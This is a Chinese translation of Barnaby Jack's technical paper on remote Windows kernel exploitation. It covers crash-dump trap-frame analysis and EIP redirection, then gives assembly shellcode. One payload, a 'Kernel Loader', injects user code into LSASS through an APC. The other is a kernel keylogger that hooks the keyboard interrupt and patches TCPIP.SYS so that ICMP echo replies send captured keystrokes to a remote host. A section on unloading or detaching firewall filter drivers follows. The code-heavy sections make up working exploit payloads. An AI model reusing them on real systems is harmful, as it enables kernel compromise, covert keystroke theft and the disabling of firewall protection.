






# Windows 远程内核漏洞注入

> 原文：[`www.pediy.com/kssd/pediy07/pediy7-780.htm`](https://www.pediy.com/kssd/pediy07/pediy7-780.htm)

Windows 远程内核漏洞注入

作者：Barnaby Jack

译：北极星 2003

EMAIL：`zhangjingsheng\_nbu@yahoo.com.cn`

说明：只翻译原资料的所有技术相关部分，忽略了一小部分冗余信息。

---

## 核心区域与用户区域

I386 体系支持 4 种访问权限，也就是通常所说的特权级别。`Windows NT` 使用了其中的两个权限，使得 `NT` 操作系统可以在不完全支持这四种特权级别的体系中运行。

用户区域代码例如应用程序和系统服务运行在 3 级，用户模式的进程只能访问分配给他们的 20 亿字节的内存，并且用户代码是可以被分页和上下文切换的。

核心级代码运行在 0 级，硬件抽象层、设备驱动程序、`IO`、内存管理和图形接口都是运行在 0 级。在 0 级执行的代码，运行时拥有系统的所有权限，可以访问所有内存且能使用特权指令。

## Native API

由于设计，用户模式进程不能任意切换权限登记，这个功能会牵涉到整体 `Windows NT` 的安全模型。当然，这个安全模型是由多时段所构成的。

有时候用户态的作业没有核心级函数功能无法完成，这就是引入 `Native API` 的原由。`Native API` 是未被文档化的内部函数集，运行在内核模式。`Native API` 之所以存在，就是为了提供一些能够在用户模式下安全地调用内核模式服务的途径。

一个用户应用程序可以调用由 `NTDLL.DLL` 导出的 `Native API`。`NTDLL.DLL` 导出大量函数用于封装相应的内核函数。如果你反汇编其中一个函数，你会发现结果与下面相似：

`Windows 2000`：

```assembly
mov eax, 0x0000002f
lea edx, [esp+04]
int 0x2e
```

每个由 `NTDLL` 导出的 `Native API` 都可以被反编译成能够把执行环境切换到内核模式的代码段（`stub`）。首先寄存器载入一个指向系统服务表的索引值，随后在 `NTOSKRNL` 对应偏移位置访问所需要的函数。

`Windows XP`：

```assembly
mov eax, 0x0000002f
mov edx, 7ffe0300
call edx

At offset 0x7ffe0300:
mov edx, esp
sysenter
ret
```

如果你的配置是奔腾 II 或者更高，那么在 `Windows XP` 中情况会有些不同。`Windows XP` 是通过 `SYSENTER/SYSEXIT` 指令对来实现内核模式与用户模式的切换，这给创建 `shell code` 增加了一些困难，稍后再详细解释。

为了成功的创建内核模式的 `shell code`，你必须忘记所有用户级的 `API`，且只使用内核级函数 `Native API`。关于 `Native API` 的更多文档资料可以参考 `Gary Nebbett` 的《The Windows NT/2000 Native API Referce》。

## 蓝屏的本质

当你找到一个漏洞，当你把数据包发送到远程系统时面临着出现蓝屏的问题。要想成功注入一个内核级漏洞，首先要理解“蓝屏死机（Blue Screen Of Death）”的原理。

当你见到 `BSOD`，这就意味着 `native` 函数 `KeBugCheckEx` 被调用，有两种情况可以引发这种错误：

1、由内核异常调用

2、直接由错误检测机制调用 `KeBugCheckEx`

内核的异常链处理机制如下：

当一个异常产生时，内核通过 `IDT`（中断描述符表）的函数入口（`KiTrapXX`）取得控制权。这些函数组成了 1 级的的陷阱处理程序（Trap Handler），这个中断处理体可能会独自处理这个异常，也可能把该异常传递给下一个异常处理体,或者如果这个异常是无法处理的，那么就直接调用 `KeBugCheckEx`。

无论是哪种情况，为了掌握产生异常的原因和地点，我们需要得到陷阱桢（Trap Frame）。陷阱桢是一个与 `CONTEXT` 相似的结构，利用这个结构，可以得到所有寄存器的状态和指令寄存器所指向的产生异常的地址。我倾向于使用 `Compuware/Numega` 的 `SoftICE` 调试器来完成所有工作，但当调试陷阱桢时，`WinDbg` 提供了更好的结构识别能力。如果只使用 `SoftICE`,我必须手动定位先前的堆栈参数。

假如你的电脑设置了蓝屏时的内存转储功能，那么这个文件的默认存储路径为 `%SystemRoot%/MEMORY.DMP`。加载 `WinDbg` 并且选择“打开崩溃转储（Open Crash Dump）”加载所保存的文件。下面是由陷阱处理程序直接调用 `KeBugCheckEx` 的例子。

在加载内存转储文件后，`WinDbg` 显示如下：





`WinDbg` 显示了 `KeBugCheckEx` 是由自陷程序 `KiTrapOE` 调用的以及而且陷阱桢的地址是 `0x8054199C` .现在就用“trap address”命令来显示陷阱桢的内容。



现在我们可以看到异常抛出时所有寄存器的状态，同时也能显示一部分的内存区域。看到指令寄存器的值为 `0x41414141`，表明是在用户区域。现在我们可以按照自己的意愿任意改变执行流程。

这种情况下，数据是由 `ESP` 寄存器来定位的：



现在我们就可以利用 `JMP ESP`, `CALL ESP`, `PUSH ESP/RET` 等偏移值替换 `0x41414141` 来实现执行流程重定向，可以采用任何标准溢出技术重现漏洞溢出。

如果 `KeBugCheckEx` 是由异常处理机制引发的，陷阱桢是作为第三参数传递给 `KiDispatchException`。在这种情况下，你需要将第三参数的地址传递给自陷命令。

当流程重定向偏移地址时，该偏移地址必须是个静态的内存地址（也就是说，在内存中的地址的不变的）。

## Shell Code 示例

第一个 `Shell Code` 示例是“Kernel Loader”，允许插入到任何用户区域代码并且安全的执行，这对于执行远程 `Shell code` 和任何用户级 `Shell Code` 来说是很方便的。

第二个示例是 `pure kernel`。这个例子建立一个用户键盘中断处理程序来捕获所有的键盘输入消息。然后利用 `shell code` `TCPIP.SYS` `ICMP` 处理程序，让键盘缓冲区通过 `ICMP ECHO` 请求返回到远程系统。这段代码很小，利用了很少的 `API` 函数。为了完全理解下面的示例，我拷贝了相应的源代码。

### The “Kernel Loader”

有很多技术可以把代码从内核状态转换到用户状态并且执行，举个例子，你可以改变正在执行的线程的 `EIP`，让它指向自己的代码——如果采用这个技术，正在运行的进程就会自我销毁。

可以使用 `NTOSKRNL` 中的 `RtlCreateUserThread` 和 `RtlCreateUserProcess` 函数，这些函数会创建 `SMSS.EXE`（唯一一个没有父进程的进程，由内核直接创建）。然而这里有两个问题：第一，他们不是导出函数；第二，是个更大的问题，他们是在 `NTOSKRNL` 的 `INIT` 区段中，这意味着在进程执行之前这两个函数就已经执行。因而需要重新映射 `NTOSKRNL`，以及初始化一些全局变量(`_MmHighestUserAddress` 和 `_NtGlobalFlag`), 当然还需要找到该函数的首地址。

另外一种可行的方法是在用户域进程中创建远程线程，并且直接执行该线程。`Firew0rker` 在他的文章中谈到过这些：`http://www.phrack.org/phrack/62/p62-0x06_Kernel_Mode_Backdoors_for_Windows_NT.txt`

不幸的是，这种方法也有缺陷。当执行用户级代码的时候，`API` 函数 `CreateProcess` 可能会失败，这是由于必须通知 `CSRSS` 子系统。需要重新获取 `workaround` 并且在用户级的 `Shell Code` 中建立一个新的 `CONTEXT` 结构。

为了保持 `shell code` 尽量小，同时也为了可以插入到任意用户域代码而无需改变（译注：可移植性），上述的 `workaround` 并不是一个可行的选择。因为这种方法同样利用 `NTDLL` 的导出函数，在 `windows 2000` 以外的系统中会引发一定的问题。`Windows 2000` 使用 `Ox2e` 中断来实现 3 级到 0 级的切换，无论在 3 级或是 0 级，都可以安全的执行。

然而，在 `Windows XP` 下问题就产生了，`Windows XP` 是利用 `SYSENTER` 和 `SYSEXIT` 指令对来实现 0 级与 3 级之间的切换。如果在内核中直接调用 `NTDLL` 的导出函数，意味着蓝屏即将来临。为了解决这个问题，用于在系统服务表中查询 `NTOSKRNL` 函数的额外代码是必须的。我决定采用异步过程调用（Asynchronous Procedure Calls）方式来执行用户域 `Shell Code`，这种方法只使用直接由 `NTOSKRNL` 导出的函数。

在一个处于“可报警等待状态（Alertable Wait State）”的用户线程中使用 `APC`，必须立即执行该函数。处于“可报警等待状态”的线程可能是由于调用了 `SleepEx`, `WaitForSingleObjectEx`, `SignalObjectAndWait` 和 `MsgWaitForMultipleObjectsEx` 等函数把 `Alertableflag` 设置为 `TRUE`。这种方法需要的 `API` 调用数目是最少的，而且相对而言比较可靠。

我们将要使用的所有函数都是由 `NOOSKRNL` 导出的。第一步要做的就是手动取得 `NTOSKRNL` 的基地址，为了完成这一步，我们使用被称为“mid-delta”的技术：先取得一个指向 `NTOSKRNL` 地址空间的指针，然后一直递减直到指针指向可执行文件标志“MZ”为止。要想得到一个指向 `NTOSKRNL` 地址空间的指针，我们可以先取得中断描述符表（`IDT`）的第一项入口地址，因为通常情况下这个地址是指向 `NTOSKRNL` 地址空间中的某一位置。

接下来的代码是访问在 `IDT` 中取得一个内存指针，然后通过递减该指针来寻找基地址。

```assembly
mov esi, dword ptr ds:[0ffdff038h] ; 取得 IDT 地址
lodsd
cdq
lodsd ; get pointer into NTOSKRNL

@base_loop:
dec eax
cmp dword ptr [eax], 00905a4dh ; 检测“MZ”标志
jnz @base_loop
```

取得 `IDT` 基地址的一般方法是使用 `SIDT` 指令。由于 `IDT` 也是由 `0xFFDFF038` 地址的指针所指向的，我可以直接访问 `IDT` 地址，这样也可以减少一些字节数。也许你会注意到上面的代码并没有得到正确的 `IDT` 入口地址，我们只是取得入口地址的高字部分，这是因为低字部分的区域范围是在 `0—0xFFFF`，忽略后仍旧在 `NTOSKRNL` 的内存地址空间里。

### hash_table

```assembly
dw 063dfh; "PsLookupProcessByProcessId"  _pslookupprocessbyprocessid  equ [ebx]
dw 0df10h; "KeDelayExecutionThread"     _kedelayexecutionthread       equ [ebx+4]
dw 0f807h; "ExAllocatePool"             _exallocatepool               equ [ebx+8]
dw 057d2h; "ZwYieldExecution"           _keyieldexecution             equ [ebx+12]
dw 07b23h; "KeInitializeApc"            _keinitializeapc              equ [ebx+16]
dw 09dd1h; "KeInsertQueueApc"           _keinsertqueueapc             equ [ebx+20]
hash_table_end:
```

接下来我们可以建立一张哈希表，每一个所需要的函数都在其中有一个字长的哈希表项。函数名字符串在 `Win32 Shell Code` 中往往会占据大量的空间，所以使用散列机制更加合理。每个函数的指针都存放在一个表项中，而且可以由 `Shell Code` 通过 `EBX` 寄存器来访问。

接下来就执行标准的“GetProcAddress”，它会分析 `NTOSKRNL` 的导出表并且取得对应函数的入口地址。这里的哈希表有点特别，只是对导出函数名的每一字节进行 `XOR/ROR` 运算。我使用字长哈希表而不是双字长哈希表就是为尽量缩减 `Shell Code` 的长度。

一旦取得所有将要使用的函数的入口地址，接下来的的任务就是分配一个新的内存块用于存储 `shell code`。因为代码还驻留在堆栈上，必须把代码拷贝到新的内存块。否则接下来的内核函数会覆盖掉大块区域，尤其是当我们请求降低 `IRQL` (Interrupt Request Level)时。

我们把 `NonPagedPool` 作为参数传递给 `ExAllocatePool`，然后把 `shell code` 拷贝到 `non-paged` 区域，再简单的执行一个 `JMP` 指令来到这个内存区域。现在所有的代码都可以安全的执行而不会再受到影响。

当注入驱动程序时，我们必须意识到当前的 `IRQL`。`IRQL` 是一个指定内核程序当前的硬件优先级，很多内核程序为了能成功执行会请求 `IRQL` 的 `PASSIVE` (0) 。如果运行在 `DISPATCH` (2)级（用于程序调度和延迟过程调用) ，必须把 `IRQL` 下降到 `PASSIVE`. 这只是一件简单的事情，只需要调用 `HAL` 的导出函数 `KeLowerIrql` 并且把 `0`(`PASSIVE`)做为参数。

现在我们需要把用户域代码绑定到进程，就必须先得到 `EPROCESS` 结构的指针，每一个进程都有一个对应的 `EPROCESS` 结构。关于这篇文章所有结构的更多信息都可以在 `WinDbg` 中通过 `dump` 结构体取得(例如: `dt NT!_EPROCESS`)。我们将要使用的函数需要 `EPROCESS` 的偏移地址，如果可以得到指向所有 `EPROCESS` 结构的指针，那么可以通过遍历所有结构来得到当前的所有活动进程。

一般情况下，可以通过调用 `PsGetCurrentProcess` 来得到第一个 `EPROCESS` 结构。不幸的是，当注入一个远程驱动程序的时候，我们可能注入到一个处于“等待”状态的进程中，这个“等待”进程不会返回一个有效进程控制块。我用 `PsLookupProcessByProcessId` 来替换，并且把“system”进程的 `PID` 作为参数。在 `Windows XP` 中这个值为 4，而在 `Windows 2000` 中这个值为 8。

```assembly
lea ebp, [edi-4]
push ebp
push 04
call dword ptr _pslookupprocessbyprocessid ;取得系统 EPROCESS
mov eax, [ebp] ; 取得系统 EPROCESS 结构指针
```

取得了第一个 `EPROCESS` 结构，现在我们就可以访问当前所有活动进程。虽然我选择把代码注入 `LSASS` 地址空间，但所有正在运行的系统进程都是合适的目标。为了访问 `LSASS`，采用循环方式枚举 `EPROCESS+ActiveProcessLinks` 所指向的每一个入口地址并且与 `LSASS` 模块名相比较。

```assembly
mov cl, EP_ActiveProcessLinks ; offset to ActiveProcessLinks
add eax, ecx ; get address of EPROCESS+ActiveProcessLinks

@eproc_loop:
mov eax, [eax] ; get next EPROCESS struct
mov cl, EP_ModuleName
cmp dword ptr [eax+ecx], "sasl" ; is it LSASS?
jnz @eproc_loop
```

一旦定位 `LSASS` 进程，就可以通过减去 `ActiveProcessLinks` 偏移值，从而得到 `LSASS` 与第一个 `EPROCESS` 结构的偏移值。


下一步就是把 `shell code` 拷贝到目标内存空间。起先我打算把代码存放在 `PEB`；以前，`PEB` 总是被映射到 `0x7ffdf000`，但在 `XP SP2` 中 `PEB` 的映射地址是随机的。虽然可以通过 `0xFFDFF000->0x18->0x30` 找到 `PEB`，但我们有更好的选择：把代码存放到内核-用户-共享内存区域，通常被称为 `SharedUserData`。`0xFFDF0000` 处是一个可写的内存区域，在那里可以保存我们的代码。这个内存区域是从用户域被标记为只读的 `0x7FFE0000` 处映射而来的，这个映射在所有的平台上都一样，所以这是个不错的选择。由于在这个区域的内存对所有进程来来说都是可读的，所以必要把地址空间切换到目标进程，可以直接从内核把代码写入到 `0xFFDF0000+0x800`。当排队一个用户模式 `APC` 时，把 `0x7FFE0000+0x800` 作为参数。

```
call @get_eip2

@get_eip2:
pop esi
mov cx, shell code-$+1
add esi, ecx ; Get shell code address
mov cx, (shell code_end-shell code) ; Shell code size
mov dword ptr [edi], SMEM_ADDR ; 0xFFDF0000+0x800
push edi
mov edi, [edi] ; Copy shell code to SharedUserData
rep movsb
pop edi
```

现在需要找到一个可以执行 `APC` 函数的线程。`APC` 可以是内核模式 `APC` 或者用户模式 `APC`，这里排队一个用户模式的 `APC`。如果我们将要传递的线程没有处于“可报警等待状态”，那么用户模式 `APC` 将不会被调用。我前面已经简要的提到，一个线程可以通过调用 `SleepEx`, `SignalObjectAndWait`, `MsgWaitForMultipleObjectsEx` and `WaitForSingleObjectEx` 把 `bAlertable` 设置为 `TRUE` 就可以进入该状态。要找一个可用的线程需要访问该进程的 `ETHREAD` 指针，并且遍历每个线程直到找到我们所需要的线程为止。

```
mov edx, [edi+16] ; Pointer to EPROCESS
mov ecx, [edx+ET_ThreadListHead] ; Get ETHREAD pointer
@find_delay:
mov ecx, [ecx] ; Get next thread
cmp byte ptr [ecx-ET_ThreadState], 04h ; Thread in DelayExecution?
jnz @find_delay
```

上面的代码首先通过 `EPROCESS` 结构的 `ThreadListHead` `LIST_ENTRY` 取得 `LSASS` `ETHREAD` 结构的指针，然后检测线程状态标志。一旦找到目标线程，我们设置 `EBP` 指向 `KTREAD` 结构，接下来我们要初始 `APC` 程序。

```
xor edx, edx
push edx
push 01 ; push processor
push dword ptr [edi] ; push EIP of shell code (0x7ffe0000+0x800)
push edx ; push NULL
push offset KROUTINE ; push KERNEL routine
push edx ; push NULL
push ebp ; push KTHREAD
push esi ; push APC object
call dword ptr _keinitializeapc ; initialize APC
```

我们把用户模式 `Shell Code`（存储在 `SharedUserData`）的 `EIP` 作为 `KeInitializeApc` 的参数，同时必须传递一个将会被调用的内核程序。我们不需要这个程序做任何事情，只需要把返回指令指向 `shell code` 就可以了，该线程的 `KTHREAD` 结构对于执行我们的 `APC` 程序也必要的，`APC` 对象将以指针变量的形式由 `ESI` 寄存器返回。现在可以将我们的 `APC` 程序插入到目标线程的 `APC` 队列。

```
push eax ; push 0
push dword ptr [edi+4] ; system arg
push dword ptr [edi+8] ; system arg
push esi ; APC object
call dword ptr _keinsertqueueapc
```

最后一个函数是 `KeInsertQueueApc` 用来发送 `APC`。在上面的代码中，`EAX` 为 0，而且两个系统参数也是指向空地址的指针，当然也传递了先前由 `KeInitializeApc` 返回的 `APC` 对象。

最后，为了防止我们的刚初始化的负载线程返回并出现蓝屏，把 `0X80000000:00000000` 传递给 `KeDelayExecutionThread`，让线程睡眠。

```
push offset LARGE_INT
push FALSE
push KernelMode
call dword ptr _kedelayexecutionthread
```

如果在偶然的情况下，我们进入了“Idle”地址空间，那么这个调用就会失败。解决这个问题的方法是放弃执行该线城，然后继续循环.代码片段如下：

```
@yield_loop:
call dword ptr _keyieldexecution
jmp @yield_loop
```

万幸，用户模式线程应该还在你所选择的 `SYSTEM` 进程中安全的执行。如果完成 `APC` 函数后调用 `ExitThread` 来退出用户代码，那么系统很可能还是稳定的。

## The ICMP Patching Interrupt Hooking Key-Logger

当我和来自 `eEye` 的 `Derek Soeder` 闲聊的时候，我们讨论了哪些是完全由内核级内代码组成的有用的 `shell code`。其中的一个想法是内核级 `key-logger`，它可以返回键盘缓冲区到远程线程。显然，这是一个 `shell code`，创建一个完整的键盘过滤器和通信管道可能会大大超出可以接受的代码长度范围，所以采取捷径是必须的。

我们采用源于 `DOS` 时代的技术，把键盘中断处理程序入口替换为自己的代码入口来捕获扫描码，而不是绑定键盘过滤器来捕获键盘消息。我决定修改 `TCPIP.SYS` 驱动程序的 `ICMP` 处理体，而不是通过自己创建管道返回键盘消息到远程用户。补丁程序修改了 `ICMP ECHO` 处理体，用我们自己的键盘缓冲区来替换原来的缓冲区。发送一个 `ICMP ECHO` 请求到远程系统将会返回所捕获的按键情况。

第一步，把键盘处理体的 `IDT` 入口替换为我们自己中断处理体的入口。现在，`Windows XP` 和 `2000 SP4` 有存储在 `HAL` 内存区域的 `IRQ` 中断向量表。我们可以很方便的搜索临近的标志字节，并且查询对应于 `IRQ1`（键盘 `IRQ`）的中断向量。在早期的服务包中，例如 `Window 2000 SP0`，这个表是不存在的，然而中断向量表是静止的，`RQ1 = Vector 0x31, IRQ2 = Vector 0x32` 等等。下面的代码首先尝试定位向量表，如果定位失败的话就会直接使用中断向量 `0X31`。

```
mov esi, dword ptr ds:[0ffdff038h] ; 取得 IDT 基地址
lodsd
cdq
lodsd ; 取得 NTOSKRNL 地址空间的指针
@base_loop:
dec eax
cmp dword ptr [eax], 00905a4dh ; 检测 MZ 标志
jnz @base_loop
jecxz @hal_base ; 把 NTOSKRNL 基地址保存到 EAX
xchg edx, eax
mov eax, [edx+590h] ; 取得一个 HAL 函数的指针
xor ecx, ecx
jmp @base_loop ; 寻找 HAL 的基地址
@hal_base:
mov edi, eax ; 把 HAL 的基地址保存到 EDI
mov ebp, edx ; 把 NTOSKRNL 基地址保存到 EBP
cld
mov eax, 41413d00h ; 标志字节"=AA\0"
xor ecx, ecx
dec cx
shr ecx, 4
repnz scasd ; 取得在 IDT 表中的偏移值
or ecx, ecx
jz @no_table
lea edi, [edi+01ch] ; 取得相量表的指针
push edi
inc eax ; IRQ 1
repnz scasb
pop esi
sub edi, esi
dec edi ; 取得键盘中断
jmp @table_ok
@no_table:
mov edi, 031h ; 如果相量表不存在，使用静态值
@table_ok:
push edx
sidt [esp-2] ;Get IDT
pop edx
lea esi, [edx+edi*8+4] ; IDT 中键盘处理体入口
std
lodsd
lodsw ; EAX 中为键盘处理体入口地址
mov dword ptr [handler_old], eax ; 保存
```

首先定位 `NOSOKRNL` 和 `HAL.DLL` 的基地址，然后在 `HAL` 地址空间中搜索“`=AA\0`”标志，这个双字标志标识着与中断向量表相临的 `TRQL-TPR` 转换表的开始。如果找到该标识，我们直接把中断向量设置为 `0X31`；如果没有找到 `IRQ` 表，那么所需要的偏移值在 `IRQ` 表的 `0XC1H` 处。接着我们定位对应于键盘 `IRQ1` 的向量，然后用 `SIDT` 指令得到 `IDT` 的基地址。得到中断向量 `IDT` 入口的公式如下：

```
IDT_BASE+INT_Vector*8
```

从 `IDT` 中取得原始中断处理体的地址，保存在我们处理程序的起始位置，因而当我们的处理程序完成特定功能后可以返回到原始处理程序。下面的代码在 `IDT` 中用我们自定义的中断处理体入口替换原始处理程序入口：

```
cld
mov eax, @handler_new
cli ; 当改写入口地址的时候屏蔽中断
mov [esi+2], ax ; 改写用新的入口地址改写 IDT 入口
shr eax, 16
mov [esi+8], ax
sti ; 恢复允许中断信号
```

接下来就调用 `ExAllocatePool`，分配一个缓冲区用于存储已捕获的键盘输入；我们还需要通过分析 `NTOSKRNL` 的 `PsLoadedModuleList` 来定位 `TCPIP.SYS` 的基地址，不幸的是 `PsLoadedModuleList` 不是公共的导出函数，因而我们需要手动定位。

`NTOSKRNL` 导出的 `MmGetSystemRoutineAddress` 函数就使用了这个链表。



为了取得所需要的指针，我们把 `MmGetSystemRoutineAddress` 的地址作为参数并且通过递增该地址来手动定位 `PsLoadedModuleList`。

```
mov edi, _mmgetsystemroutineaddress
@mmgsra_scan:
inc edi
mov eax, [edi]
sub eax, ebp
test eax, 0FFE00003h
jnz @mmgsra_scan
mov ebx, [edi]
cmp ebx, [edi+5] ; 检测 PsLoadedModuleList 的指针
je @pslml_loop
cmp ebx, [edi+6]
jne @mmgsra_scan
@pslml_loop: ; 找到 _PsLoadedModuleList
mov ebx, [ebx]
mov esi, [ebx+30h]
mov edx, 50435449h ; "ITCP"， 判断是否 TCPIP.SYS 模块?
push 4
pop ecx
@pslml_name_loop:
lodsw
ror edx, 8
sub al, dl
je @pslml_name_loop_cont
cmp al, 20h
@pslml_name_loop_cont:
loopz @pslml_name_loop
@pslml_loop_cont:
jnz @pslml_loop
mov edi, [ebx+18h] ;TCPIP.SYS 模块基地址
```

上面的代码首先遍历 `MmGetSystemRoutineAddress` 程序来搜索该链表的指针。系统模块链表结构如下：

```
+00h LIST_ENTRY
+08h ???
+18h LPVOID module base address
+1Ch LPVOID ptr to entry point function
+20h DWORD size of image in bytes
+24h UNICODE_STRING full path and file name of module
+2Ch UNICODE_STRING module file name only
...
```

接下来就是分析该链表来取得 `TCPIP.SYS` 模块的基地址。

这些代码比起网络 `Shell Code` 更类似于软件 `crack`，原因就在于：我们将要修改 `TCPIP` 驱动程序，这就意味着我们可以接受来自远程系统所捕获的键盘输入。有很多种方法，这里通过修改 `ICMP ECHO` 处理程序使之作为通信通道。

在 `TCPIP.SYS` 的 `SendEcho` 中我们将会使用 `shell code`。由于完整的反汇编代码太长，下面是相关部分的代码片段：



从上面的反汇编代码来看，`[edx+8]`是指向 `ICMP ECHO` 缓冲区的指针，那么通过修改上面的代码把`[edx+8]`的指针改为指向我们的键盘缓冲区，这只是一件很容易的事。

```
mov eax, 428be85dh ; TCPIP.SYS 地址空间中的字节序列
@find_patch:
inc edi
cmp dword ptr [edi], eax
jnz @find_patch
add edi, 5
mov al, 68h
stosb ; Store "push"
mov eax, edx ; EDX 指向键盘缓冲区
stosd ; 保存键盘缓冲区指针
mov eax, 08428f90h ; "pop [edx+08h] / nop"
stosd
```

用下面的代码可以修改：

```
push keybuffer_offset
pop [edx+8]
nop
```

当 `ICMP ECHO` 请求被发送到远程系统时，反馈的数据包会包括已捕获的键盘输入，替换中断处理体是很容易的事--当有按键事件时我们的程序就会被调用，然后从键盘断口读取键盘扫描码并保存到按键缓冲区。

```
@handler_new:
push 0deadbeefh ; 保存当前处理程序指针
handler_old equ $-4
pushfd
pushad
xor eax, eax
lea edi, keybuf ; 用所分配的缓冲区地址改写
KB_PATCH equ $-4
in al, 60h ; 取得键盘扫描码
test al, al ; 没有扫描码?
jz @done
push edi
mov ecx, [edi]
lea edi, [edi+ecx+4]
stosb ; Store code in buffer
inc ecx
pop edi
cmp cx, 1023
jnz @done
```


## 汇编代码片段

```
xor ecx, ecx
@done:
mov [edi], ecx
popad
popfd
db 0c3h               ; 返回到原来的处理程序
```

一旦有按键消息产生，上面的代码就会被调用，而初始的中断处理程序句柄（已经被改写）被压入堆栈。从 `0x60` 断口读取当前的扫描码并保存到所分配的缓冲区中。这个缓冲区可以保存 `0X3FF` 个键盘输入，如果之后再有扫描码就会覆盖前面部分。

### 对注入放火墙驱动程序的思考

当在防火墙驱动程序中注入一个内核级漏洞时，将需要考虑很多问题。我们将要示范的漏洞是由处理 DNS 反馈信息过程引起的，DNS 反馈信息是由 `SYMDNS.SYS` 处理的。如果 DNS 处理过程不能成功返回，那么就不能用 socket 来通信。在研究这个问题之前，首先必须理解多种协议层的通信机制。

下面是网络层的概要：

1. 网络驱动程序接口规范（Network Driver Interface Specification Layer）

   `NDIS` 为从物理设备到网络传输提供一个通路

   `NDIS` 驱动程序直接与网络适配器打交道。

2. 网络协议层（Network Protocol Layer）

   此处为 `TCP/IP`. (`TCPIP.SYS`)

3. 传输层驱动接口（Transport Driver Interface Layer）

   `TDI` 为网络协议、客户端协议、以及网络 API 例如 `Winsock` 提供接口。

4. 网络应用程序接口（Network API Layer）

   网络应用程序接口例如 `Winsock`，为网络应用程序提供编程接口。

所有基于主机的放火墙的限制策略都工作在内核模式，通常可以通过 `TDI` 过滤驱动程序或者 `NDIS` 挂钩过滤驱动程序。虽然我没有见过这一类的放火墙产品，但是挂钩 `AFD` 接口也是可能的。

我们所面对的问题：`SYMDNS.SYS` 必须返回到 `TDI` 过滤驱动程序 `SYMTDI.SYS`，不幸的是一旦执行我们的 shell code，通信就不会结束。这里有一些的解决方案：

#### (a) “clean” 返回

Clean 返回包括在没有出现 BSOD 的情况下从 shell code 返回，有包括能继续正常的通信，这个是很难实现的。经过攻击后的堆栈不是处于最佳状态，所以必须返回到原来堆栈桢的状态

#### (b) 卸载 TDI 或者 NDIS 的过滤驱动

卸载过滤驱动是另外一个可行的方法。我们可以很方便的调用驱动程序的卸载程序，这就相当于从 `DriverEntry` 程序调用 `DriverObject->DriverUnload`。这个驱动程序的偏移地址可以通过目标驱动程序的 `DRIVER_OBJECT` 获得。

如果 `DriverUnload` 的成员 `DRIVER_OBJECT` 为空，意味目标驱动程序的卸载程序不存在。`DRIVER_OBJECT` 可以被 `DEVICE_OBJECT` 的成员所引用，可以通过把驱动程序名作为参数传递给 `IoGetDeviceObjectPointer`，取得指向 `DEVICE_OBJECT` 的指针。

#### (c) 分离或删除驱动程序（Detach/delete the devices）

驱动可以通过调用 `IoAttachDevice` 或 `IoAttachDeviceToDeviceStack` 把自身的设备对象附加到其它设备，因而对原始设备的请求首先被传递到立即设备。我们可把 `DEVICE_OBJECT` 作为参数传递给 `IoDetachDevice` 来分离驱动程序，有可以把 `DEVICE_OBJECT` 作为参数传递给 `IoDeleteDevice` 来移除设备。
